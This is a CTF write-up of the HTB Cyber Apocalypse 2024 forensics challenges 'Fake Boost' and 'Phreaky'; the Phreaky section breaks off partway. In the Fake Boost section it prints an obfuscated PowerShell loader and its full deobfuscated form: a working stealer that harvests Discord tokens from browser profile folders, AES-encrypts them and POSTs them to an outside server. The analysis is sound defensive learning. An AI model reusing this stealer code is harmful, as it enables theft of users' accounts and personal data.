


# HTB CTF - Cyber Apocalypse 2024 - Write Up

<p align="center">
	
</p>

## Scoreboard

<p align="center">
	
</p>

<p align="center">
	
</p>

> There was a total of 12965 players and 5693 teams playing that CTF

> Written by [V0lk3n](https://twitter.com/V0lk3n)

## Author Notes 

```
This CTF was juste AWESOME, we learned a tons of cool stuff and sharped our methodology as allway.

One of the best CTF event i ever played, and will deffinitvely be there at the 2025 edition!

Here i've made some Write Up of the best challenges we solved.

Also, thanks for that cool Certificate!

- V0lk3n
```

## Certificate

<p align="center">
	
</p>

## Table of Contents

* [**Forensics**](#forensics)
	* [Fake Boost](#fakeboost) 
	* [Phreaky](#phreaky)
	* [DataSiege](#datasiege)
* [**Reversing**](#reverse)
	* [Packed Away](#packed) 
* [**Web**](#web)
	* [Flag Command](#flagcommand)
	* [KORP Terminal](#korpterminal)
	* [TimeKORP](#timekorp)
	* [Labyrinth Linguist](#labyrinth)<br/><br/>
* [**Credits**](#Credits)

## Forensics<a name="forensics"></a>

## Fake Boost<a name="fakeboost"></a>

Difficulty : **Easy**

Value : **300 points**

Challenge Description : 

`In the shadow of The Fray, a new test called ""Fake Boost"" whispers promises of free Discord Nitro perks. It's a trap, set in a world where nothing comes without a cost. As factions clash and alliances shift, the truth behind Fake Boost could be the key to survival or downfall. Will your faction see through the deception? KORP™ challenges you to discern reality from illusion in this cunning trial.`

Attachments : 

- <a href="assets/challenges/forensics/FakeBoost/forensics_fake_boost.zip">forensics_fake_boost.zip</a>

### Solution

Once the attachments zip downloaded and unzipped, we found a `capture.pcapng` file.

I open it with Wireshark and start my analyse by looking at the protocol hierarchy under `Statistics > Protocol Hierarchy`.

<p align="center">
	
</p>

Here we can see that 73,2% of the packets are request made on the QUIC protocol which is a network protocol based on UDP, we see also 18.8% of packets using TCP where 6 packets use HTTP.

HTTP can be really interesting in capture analyse, and as there is only 6 packet, let's look those at first. 

I filter the capture packets using the `http` filter to retrieve the 6 packets.

<p align="center">
	
</p>

We can see two interesting request, a GET request to `/freediscordnitro`and a POST request to `/rj1893rj1joijdkajwda`, both requests are made from `192.168.116.138` to `192.168.116.135` IP address.

I right click on them and follow the HTTP stream (you can use CTRL+ALT+SHIT+H shortcut also). 

Let's start by the GET request.

```bash
GET /freediscordnitro HTTP/1.1
Host: 192.168.116.135:8080
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en
Accept-Encoding: gzip, deflate

HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.10.12
Date: Sat, 02 Mar 2024 18:11:55 GMT
Content-Disposition: attachment; filename=discordnitro.ps1
Content-Type: application/octet-stream
Content-Length: 8526
Last-Modified: Sat, 02 Mar 2024 17:29:47 GMT
Cache-Control: no-cache
ETag: "1709400587.6259556-8526-1669141932"
Date: Sat, 02 Mar 2024 18:11:55 GMT
Connection: close

$jozeq3n = "9ByXkACd1BHd19ULlRXa..." ;
$s0yAY2gmHVNFd7QZ = $jozeq3n.ToCharArray() ; [array]::Reverse($s0yAY2gmHVNFd7QZ) ; -join $s0yAY2gmHVNFd7QZ 2>&1> $null ;
$LOaDcODEoPX3ZoUgP2T6cvl3KEK = [sYSTeM.TeXt.ENcODING]::UTf8.geTSTRiNG([SYSTEm.cOnVeRT]::FRoMBaSe64sTRing("$s0yAY2gmHVNFd7QZ")) ;
$U9COA51JG8eTcHhs0YFxrQ3j = "Inv"+"OKe"+"-EX"+"pRe"+"SSI"+"On" ; New-alIaS -Name pWn -VaLuE $U9COA51JG8eTcHhs0YFxrQ3j -FoRcE ; pWn $lOADcODEoPX3ZoUgP2T6cvl3KEK ;
```

I've cut the base64 using `...` to get a shorter output for the WriteUp. 

As we can see, it seem to be an obfuscated PowerShell script, we know this because of the variable `$variablename` and because of the following line 

`"Inv"+"OKe"+"-EX"+"pRe"+"SSI"+"On" ; New-alIaS -Name pWn -VaLuE $U9COA51JG8eTcHhs0YFxrQ3j -FoRcE ; pWn $lOADcODEoPX3ZoUgP2T6cvl3KEK ;` 

Which clearly seem to be PowerShell command.

Next let's take a look at the POST request, i right click on it and follow the HTTP stream too.

```bash
POST /rj1893rj1joijdkajwda HTTP/1.1
Content-Type: text/plain
User-Agent: Mozilla/5.0
Host: 192.168.116.135:8080
Content-Length: 728
Connection: Keep-Alive

bEG+rGcRyYKeqlzXb0QVVRvFp5E9vmlSSG3pvDTAGoba05Uxvepwv++0uWe1Mn4LiIInZiNC/ES1tS7Smzmbc99Vcd9h51KgA5Rs1t8T55Er5ic4FloBzQ7tpinw99kC380WRaWcq1Cc8iQ6lZBP/yqJuLsfLTpSY3yIeSwq8Z9tusv5uWvd9E9V0Hh2Bwk5LDMYnywZw64hsH8yuE/u/lMvP4gb+OsHHBPcWXqdb4DliwhWwblDhJB4022UC2eEMI0fcHe1xBzBSNyY8xqpoyaAaRHiTxTZaLkrfhDUgm+c0zOEN8byhOifZhCJqS7tfoTHUL4Vh+1AeBTTUTprtdbmq3YUhX6ADTrEBi5gXQbSI5r1wz3r37A71Z4pHHnAoJTO0urqIChpBihFWfYsdoMmO77vZmdNPDo1Ug2jynZzQ/NkrcoNArBNIfboiBnbmCvFc1xwHFGL4JPdje8s3cM2KP2EDL3799VqJw3lWoFX0oBgkFi+DRKfom20XdECpIzW9idJ0eurxLxeGS4JI3n3jl4fIVDzwvdYr+h6uiBUReApqRe1BasR8enV4aNo+IvsdnhzRih+rpqdtCTWTjlzUXE0YSTknxiRiBfYttRulO6zx4SvJNpZ1qOkS1UW20/2xUO3yy76Wh9JPDCV7OMvIhEHDFh/F/jvR2yt9RTFId+zRt12Bfyjbi8ret7QN07dlpIcppKKI8yNzqB4FA==HTTP/1.1 200 OK

Server: Werkzeug/3.0.1 Python/3.10.12
Date: Sat, 02 Mar 2024 18:12:50 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2
Connection: close

OK
```

Here we can see that the POST request seem to send a file called `rj1893rj1joijdkajwda` to a python server hosted by `http.server` python module. 

The content seem to be a base64, but we can't decode it.

With those information, i was looking if i can extract both files from the capture, and to do this i go to `file > Export Objects > HTTP`.

<p align="center">
	
</p>

Great, we can extract them, i select `Save All` and pick the output folder.

Now i got the PowerShell script `freediscordnitro` from the GET request, and the `rj1893rj1joijdkajwda` file sent using the POST request.

With this in my hand, my next goal was to deobfuscate the PowerShell script.

To do this, i used a PowerShell tools that i wasn't able to run on my linux PowerShell. So i run it into my windows virtual machine.

Once my Virtual Machine started, i download PowerDecode tool from <a href="https://github.com/Malandrone/">Malandrone</a>, you can find it bellow.

<a href="https://github.com/Malandrone/PowerDecode">PowerDecode</a>.

Once downloaded on my VM, i copy the PowerShell script into my VM, and run the tool.

```powershell
PS C:\Users\V0lk3n\Downloads\PowerDecode-2.7> .\PowerDecode.bat

C:\Users\V0lk3n\Downloads\PowerDecode-2.7>TITLE PowerDecode v2.7

C:\Users\V0lk3n\Downloads\PowerDecode-2.7>powershell -executionpolicy bypass .\GUI.ps1
```

Once started, it load a menu, where i chose `Automatic decode mode`.

```powershell
[1]-Automatic decode mode
[2]-Manual decode mode
[3]-Malware repository
[4]-Settings
[5]-About
[0]-Exit
Insert your choice: 1
```

Then i chose `Decode a script from a single file`

```powershell
Storage mode: Disabled
Step by step mode: Disabled
[WARNING]: Windows Defender is enabled, it might avoid the tool from working properly


[1]-Decode a script from a single file
[2]-Decode multiple scripts from a folder
[0]-Go back
Insert your choice: 1
```

This open a window explorer to select the PowerShell script that we want to deobfuscate, then another window explorer to pick the output folder where the result will be saved. 

Also, it said that the PowerShell script need to be `.ps1 or .txt`, so i renamed `freediscordnitro` to `freediscordintro.ps1`.

Once the `freediscordnitro.ps1` PowerShell script and the output folder chosen. The tool start to deobfuscate the code.

```powershell
Script loaded from file C:\Users\V0lk3n\Downloads\PowerDecode-2.7\freediscordnitro.ps1 (sha256: AD3DB42BC490BD995B2B72F90247C797D04A5E4D26996DDB4095B43CED3C5EC1 )


Deobfuscating IEX-dependent layers
Syntax is good, layer stored successfully
Deobfuscating current layer by overriding
Layer deobfuscated successfully, moving to next layer
Syntax is good, layer stored successfully
Deobfuscating current layer by overriding

...

Decoding terminated. Report file has been saved to C:\Users\V0lk3n\Downloads\PowerDecode-2.7\PowerDecode_report_AD3DB42BC490BD995B2B72F90247C797D04A5E4D26996DDB4095B43CED3C5EC1.txt
```

Once deobfuscated, the result report is saved into the chosen output folder.

Let's take a look to the report. Scrolling a bit, i can find the plain text PowerShell script  which is the following.

```powershell
Layer 3 - Plainscript


$URL = "http://192.168.116.135:8080/rj1893rj1joijdkajwda"

function Steal {
    param (
        [string]$path
    )

    $tokens = @()

    try {
        Get-ChildItem -Path $path -File -Recurse -Force | ForEach-Object {
            
            try {
                $fileContent = Get-Content -Path $_.FullName -Raw -ErrorAction Stop

                foreach ($regex in @('[\w-]{26}\.[\w-]{6}\.[\w-]{25,110}', 'mfa\.[\w-]{80,95}')) {
                    $tokens += $fileContent | Select-String -Pattern $regex -AllMatches | ForEach-Object {
                        $_.Matches.Value
                    }
                }
            } catch {}
        }
    } catch {}

    return $tokens
}

function GenerateDiscordNitroCodes {
    param (
        [int]$numberOfCodes = 10,
        [int]$codeLength = 16
    )

    $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'
    $codes = @()

    for ($i = 0; $i -lt $numberOfCodes; $i++) {
        $code = -join (1..$codeLength | ForEach-Object { Get-Random -InputObject $chars.ToCharArray() })
        $codes += $code
    }

    return $codes
}

function Get-DiscordUserInfo {
    [CmdletBinding()]
    Param (
        [Parameter(Mandatory = $true)]
        [string]$Token
    )

    process {
        try {
            $Headers = @{
                "Authorization" = $Token
                "Content-Type" = "application/json"
                "User-Agent" = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/91.0.864.48 Safari/537.36"
            }

            $Uri = "https://discord.com/api/v9/users/@me"

            $Response = Invoke-RestMethod -Uri $Uri -Method Get -Headers $Headers
            return $Response
        }
        catch {}
    }
}

function Create-AesManagedObject($key, $IV, $mode) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"

    if ($mode="CBC") { $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC }
    elseif ($mode="CFB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CFB}
    elseif ($mode="CTS") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CTS}
    elseif ($mode="ECB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::ECB}
    elseif ($mode="OFB"){$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::OFB}


    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV) {
        if ($IV.getType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)
        }
        else {
            $aesManaged.IV = $IV
        }
    }
    if ($key) {
        if ($key.getType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }
    $aesManaged
}

function Encrypt-String($key, $plaintext) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    [System.Convert]::ToBase64String($fullData)
}

Write-Host "
______              ______ _                       _   _   _ _ _               _____  _____  _____   ___ 
|  ___|             |  _  (_)                     | | | \ | (_) |             / __  \|  _  |/ __  \ /   |
| |_ _ __ ___  ___  | | | |_ ___  ___ ___  _ __ __| | |  \| |_| |_ _ __ ___   ' / /'| |/' |' / /'/ /| |
|  _| '__/ _ \/ _ \ | | | | / __|/ __/ _ \| '__/ _ | | .  | | __| '__/ _ \    / /  |  /| |  / / / /_| |
| | | | |  __/  __/ | |/ /| \__ \ (_| (_) | | | (_| | | |\  | | |_| | | (_) | ./ /___\ |_/ /./ /__\___  |
\_| |_|  \___|\___| |___/ |_|___/\___\___/|_|  \__,_| \_| \_/_|\__|_|  \___/  \_____/ \___/ \_____/   |_/
                                                                                                         
                                                                                                         "
Write-Host "Generating Discord nitro keys! Please be patient..."

$local = $env:LOCALAPPDATA
$roaming = $env:APPDATA
$part1 = "SFRCe2ZyMzNfTjE3cjBHM25fM3hwMDUzZCFf"

$paths = @{
    'Google Chrome' = "$local\Google\Chrome\User Data\Default"
    'Brave' = "$local\BraveSoftware\Brave-Browser\User Data\Default\"
    'Opera' = "$roaming\Opera Software\Opera Stable"
    'Firefox' = "$roaming\Mozilla\Firefox\Profiles"
}

$headers = @{
    'Content-Type' = 'application/json'
    'User-Agent' = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/91.0.864.48 Safari/537.36'
}

$allTokens = @()
foreach ($platform in $paths.Keys) {
    $currentPath = $paths[$platform]

    if (-not (Test-Path $currentPath -PathType Container)) {continue}

    $tokens = Steal -path $currentPath
    $allTokens += $tokens
}

$userInfos = @()
foreach ($token in $allTokens) {
    $userInfo = Get-DiscordUserInfo -Token $token
    if ($userInfo) {
        $userDetails = [PSCustomObject]@{
            ID = $userInfo.id
            Email = $userInfo.email
            GlobalName = $userInfo.global_name
            Token = $token
        }
        $userInfos += $userDetails
    }
}

$AES_KEY = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="
$payload = $userInfos | ConvertTo-Json -Depth 10
$encryptedData = Encrypt-String -key $AES_KEY -plaintext $payload

try {
    $headers = @{
        'Content-Type' = 'text/plain'
        'User-Agent' = 'Mozilla/5.0'
    }
    Invoke-RestMethod -Uri $URL -Method Post -Headers $headers -Body $encryptedData
}
catch {}

Write-Host "Success! Discord Nitro Keys:"
$keys = GenerateDiscordNitroCodes -numberOfCodes 5 -codeLength 16
$keys | ForEach-Object { Write-Output $_ }
```

Great. Now we need to analyse the PowerShell script.

First, it set the URL where to send the data, this show us that the file `rj1893rj1joijdkajwda` contain the stolen data, and there is a `steal` function which seem to steal a token.

```powershell
$URL = "http://192.168.116.135:8080/rj1893rj1joijdkajwda"

function Steal {
    param (
        [string]$path
    )

    $tokens = @()

    try {
        Get-ChildItem -Path $path -File -Recurse -Force | ForEach-Object {
            
            try {
                $fileContent = Get-Content -Path $_.FullName -Raw -ErrorAction Stop

                foreach ($regex in @('[\w-]{26}\.[\w-]{6}\.[\w-]{25,110}', 'mfa\.[\w-]{80,95}')) {
                    $tokens += $fileContent | Select-String -Pattern $regex -AllMatches | ForEach-Object {
                        $_.Matches.Value
                    }
                }
            } catch {}
        }
    } catch {}

    return $tokens
}
```

Then a fake `GenerateDiscordNitroCodes` function, to trick the user which don't suspect this malware.

```powershell
function GenerateDiscordNitroCodes {
    param (
        [int]$numberOfCodes = 10,
        [int]$codeLength = 16
    )

    $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'
    $codes = @()

    for ($i = 0; $i -lt $numberOfCodes; $i++) {
        $code = -join (1..$codeLength | ForEach-Object { Get-Random -InputObject $chars.ToCharArray() })
        $codes += $code
    }

    return $codes
}
```

Then a `Get-DiscordUserInfo` function, which use the stolen token to make a request against discord API.

```powershell
function Get-DiscordUserInfo {
    [CmdletBinding()]
    Param (
        [Parameter(Mandatory = $true)]
        [string]$Token
    )

    process {
        try {
            $Headers = @{
                "Authorization" = $Token
                "Content-Type" = "application/json"
                "User-Agent" = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/91.0.864.48 Safari/537.36"
            }

            $Uri = "https://discord.com/api/v9/users/@me"

            $Response = Invoke-RestMethod -Uri $Uri -Method Get -Headers $Headers
            return $Response
        }
        catch {}
    }
}
```

Now it become more and more intersting. There is a `Create-AesManagedObject`function which create an AES encryption method, and the AES key seem to be encoded as base64.

```powershell
function Create-AesManagedObject($key, $IV, $mode) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"

    if ($mode="CBC") { $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC }
    elseif ($mode="CFB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CFB}
    elseif ($mode="CTS") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CTS}
    elseif ($mode="ECB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::ECB}
    elseif ($mode="OFB"){$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::OFB}


    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV) {
        if ($IV.getType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)
        }
        else {
            $aesManaged.IV = $IV
        }
    }
    if ($key) {
        if ($key.getType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }
    $aesManaged
}
```

Then an `Encrypt-String` function that encrypt the stolen data using the AES encryption and it's key to a base64 strings.

```powershell
function Encrypt-String($key, $plaintext) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    [System.Convert]::ToBase64String($fullData)
}
```

Then some interesting variables, one is called `part1`... Let's try to decode this as base64.

```powershell
$local = $env:LOCALAPPDATA
$roaming = $env:APPDATA
$part1 = "SFRCe2ZyMzNfTjE3cjBHM25fM3hwMDUzZCFf"
```

```bash
$ echo "SFRCe2ZyMzNfTjE3cjBHM25fM3hwMDUzZCFf" | base64 -d                                    
HTB{fr33_N17r0G3n_3xp053d!_
```

We got the first part of the flag!

**First Flag Part: HTB{fr33_N17r0G3n_3xp053d!_**

Let's move on, there is some other variables which seem to steal the browsers tokens.

```powershell
$paths = @{
    'Google Chrome' = "$local\Google\Chrome\User Data\Default"
    'Brave' = "$local\BraveSoftware\Brave-Browser\User Data\Default\"
    'Opera' = "$roaming\Opera Software\Opera Stable"
    'Firefox' = "$roaming\Mozilla\Firefox\Profiles"
}

$headers = @{
    'Content-Type' = 'application/json'
    'User-Agent' = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/91.0.864.48 Safari/537.36'
}

$allTokens = @()
foreach ($platform in $paths.Keys) {
    $currentPath = $paths[$platform]

    if (-not (Test-Path $currentPath -PathType Container)) {continue}

    $tokens = Steal -path $currentPath
    $allTokens += $tokens
}
```

Then it use all the tokens found and call the `GetDiscord-UserInfo` function to retrieve informations such as ID, Email, GlobalName and Token of the infected user.

```powershell
$userInfos = @()
foreach ($token in $allTokens) {
    $userInfo = Get-DiscordUserInfo -Token $token
    if ($userInfo) {
        $userDetails = [PSCustomObject]@{
            ID = $userInfo.id
            Email = $userInfo.email
            GlobalName = $userInfo.global_name
            Token = $token
        }
        $userInfos += $userDetails
    }
}
```

Then we found some other variables. The AES Key is encoded as base64,  the user information's are converted to JSON format, and the data are encrypted using the AES key. 

And finally it send the POST request containing the stolen data to the attacker.

```powershell
$AES_KEY = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="
$payload = $userInfos | ConvertTo-Json -Depth 10
$encryptedData = Encrypt-String -key $AES_KEY -plaintext $payload

try {
    $headers = @{
        'Content-Type' = 'text/plain'
        'User-Agent' = 'Mozilla/5.0'
    }
    Invoke-RestMethod -Uri $URL -Method Post -Headers $headers -Body $encryptedData
}
catch {}
```

The script end with some fake Discord Nitro keys, to trick the target. 

```powershell
Write-Host "Success! Discord Nitro Keys:"
$keys = GenerateDiscordNitroCodes -numberOfCodes 5 -codeLength 16
$keys | ForEach-Object { Write-Output $_ }
```

Now, we need to decrypt the stolen data using the AES key. We already extracted them from the capture file, these are located into `rj1893rj1joijdkajwda` file as discovered in the PowerShell script. 

To achieve this, i know two solutions. The first is to make a script which will decode the data. The second is to use AES Encryption Decryption Online tool, but i really dont like this way. Anyway bellow is the website. 

Basically, we can use openssl too, i was going for this way, but i failed all my attempt... I guess i need to find an IV value to use it, or maybe exploit it or something else, but my coding and code review skills are limited to achieve this.

<a href="https://www.devglan.com/online-tools/aes-encryption-decryption">AES Encryption Decryption Online Tool</a>

As i really don't like to take unjustified honor, i admit that i'm horribly bad at coding, and to create the decoder, i needed to use ChatGPT. 

I sent to ChatGPT the PowerShell script and ask him to create the decryption code.

Here is the script made by ChatGPT.

```powershell
function Create-AesManagedObject($key, $IV, $mode) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"

    if ($mode -eq "CBC") { $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC }
    elseif ($mode -eq "CFB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CFB}
    elseif ($mode -eq "CTS") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CTS}
    elseif ($mode -eq "ECB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::ECB}
    elseif ($mode -eq "OFB"){$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::OFB}

    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256

    if ($IV) {
        if ($IV.GetType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)
        }
        else {
            $aesManaged.IV = $IV
        }
    }

    if ($key) {
        if ($key.GetType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }

    $aesManaged
}

function Encrypt-String($key, $plaintext) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
    $aesManaged = Create-AesManagedObject $key $null
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length)
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    [System.Convert]::ToBase64String($fullData)
}

function Decrypt-String($key, $encryptedText) {
    $encryptedBytes = [System.Convert]::FromBase64String($encryptedText)
    $ivLength = 16  # IV length for AES is typically 16 bytes
    $iv = $encryptedBytes[0..($ivLength - 1)]
    $cipherText = $encryptedBytes[$ivLength..($encryptedBytes.Length - 1)]

    $aesManaged = Create-AesManagedObject $key $iv

    $decryptor = $aesManaged.CreateDecryptor()
    $decryptedData = $decryptor.TransformFinalBlock($cipherText, 0, $cipherText.Length)

    [System.Text.Encoding]::UTF8.GetString($decryptedData)
}

# Usage examples:
# Encrypt a string
$key = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="
$encrypted = "bEG+rGcRyYKeqlzXb0QVVRvFp5E9vmlSSG3pvDTAGoba05Uxvepwv++0uWe1Mn4LiIInZiNC/ES1tS7Smzmbc99Vcd9h51KgA5Rs1t8T55Er5ic4FloBzQ7tpinw99kC380WRaWcq1Cc8iQ6lZBP/yqJuLsfLTpSY3yIeSwq8Z9tusv5uWvd9E9V0Hh2Bwk5LDMYnywZw64hsH8yuE/u/lMvP4gb+OsHHBPcWXqdb4DliwhWwblDhJB4022UC2eEMI0fcHe1xBzBSNyY8xqpoyaAaRHiTxTZaLkrfhDUgm+c0zOEN8byhOifZhCJqS7tfoTHUL4Vh+1AeBTTUTprtdbmq3YUhX6ADTrEBi5gXQbSI5r1wz3r37A71Z4pHHnAoJTO0urqIChpBihFWfYsdoMmO77vZmdNPDo1Ug2jynZzQ/NkrcoNArBNIfboiBnbmCvFc1xwHFGL4JPdje8s3cM2KP2EDL3799VqJw3lWoFX0oBgkFi+DRKfom20XdECpIzW9idJ0eurxLxeGS4JI3n3jl4fIVDzwvdYr+h6uiBUReApqRe1BasR8enV4aNo+IvsdnhzRih+rpqdtCTWTjlzUXE0YSTknxiRiBfYttRulO6zx4SvJNpZ1qOkS1UW20/2xUO3yy76Wh9JPDCV7OMvIhEHDFh/F/jvR2yt9RTFId+zRt12Bfyjbi8ret7QN07dlpIcppKKI8yNzqB4FA=="
# Write-Host "Encrypted: $encrypted"

# Decrypt a string
$decrypted = Decrypt-String $key $encrypted
Write-Host "Decrypted: $decrypted"
```

Running it, we successfully decrypted the data.

```powershell
$ pwsh
PowerShell 7.2.6
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS> ./fakeboost_decoder.ps1
Decrypted: [
    {
        "ID":  "1212103240066535494",
        "Email":  "YjNXNHIzXzBmX1QwMF9nMDBkXzJfYjNfN3J1M18wZmYzcjV9",
        "GlobalName":  "phreaks_admin",
        "Token":  "MoIxtjEwMz20M5ArNjUzNTQ5NA.Gw3-GW.bGyEkOVlZCsfQ8-6FQnxc9sMa15h7UP3cCOFNk"
    },
    {
        "ID":  "1212103240066535494",
        "Email":  "YjNXNHIzXzBmX1QwMF9nMDBkXzJfYjNfN3J1M18wZmYzcjV9",
        "GlobalName":  "phreaks_admin",
        "Token":  "MoIxtjEwMz20M5ArNjUzNTQ5NA.Gw3-GW.bGyEkOVlZCsfQ8-6FQnxc9sMa15h7UP3cCOFNk"
    }
]
```

Finally we decode the Email data which is as base64 string.

```bash
 echo "YjNXNHIzXzBmX1QwMF9nMDBkXzJfYjNfN3J1M18wZmYzcjV9" | base64 -d
b3W4r3_0f_T00_g00d_2_b3_7ru3_0ff3r5}
```

And we got the second part of the flag!

**Second Flag Part : b3W4r3_0f_T00_g00d_2_b3_7ru3_0ff3r5}**

**FLAG : HTB{fr33_N17r0G3n_3xp053d!b3W4r3_0f_T00_g00d_2_b3_7ru3_0ff3r5}**


## Phreaky<a name="phreaky"></a>

Difficulty : **Medium**

Value : **300 points**

Challenge Description : 

`In the shadowed realm where the Phreaks hold sway, A mole lurks within, leading them astray. Sending keys to the Talents, so sly and so slick, A network packet capture must reveal the trick. Through data and bytes, the sleuth seeks the sign, Decrypting messages, crossing the line. The traitor unveiled, with nowhere to hide, Betrayal confirmed, they'd no longer abide.`

Attachments : 

- <a href="assets/challenges/forensics/Phreaky/forensics_phreaky.zip">forensics_phreaky.zip</a>

### Solution

Download the zip, unzip it and we got a capture file named `phreaky.pcap`.

Running WireShark, and looking at Protocol Hiearchy under `Statistics > Protocol Hierarchy`, show that 3,9% of packets use UDP protocol where 3,7% use DNS protocol. And 95.6% use TCP protocol where 8.6% use SMTP protocol.

<p align="center">
	
</p>


SMTP protocol seem interesting, so i filtered the capture packet using the `smtp` filter.

<p align="center">
	
</p>

We can see interesting mail request there, i follow the TCP stream of one of them and find an email sent from `caleb@thephreaks.com` to `resources@thetalents.com`.

<p align="center">
	
</p>

We can see that the mail said `Attached is a part of the file. Password: S3W8yzixNoL8` and that the mail subject is `Secure File Transfer`. Also we see that as attachment there is a zip called `efcfd.zip`.

Each mail is the same as this one but with different password and zip. In the data of the request, we have the zip as base64. 

It seem that we need to recover all zip to extract them with their corresponding passwords to recover the transferred file.

I used two way to extract those email and zip, which are :

- Using `File > Export Objects > SMTP`, saving all the mails, taking their base64 and running `echo <base64 here> | base64 -d > file.zip`.
- Using Network Miner application. Using this way we only need to open the `phreaky.pcap` with it, go to the message tab, right click on the attachment zip and select "open folder". Unfortunately Network Miner is a windows application, i tried to run it using "mono" but at "open folder" step it seem to crash. Maybe we can use wine but i haven't tried, so i used it on my VM.

Here i will show you the way which use Network Miner. 

I run my VM and download Network Miner which can been found bellow.

<a href="https://www.netresec.com/?page=NetworkMiner">Network Miner</a><br>
<a href="https://www.netresec.com/?download=NetworkMiner">Direct Download Link Network Miner</a>

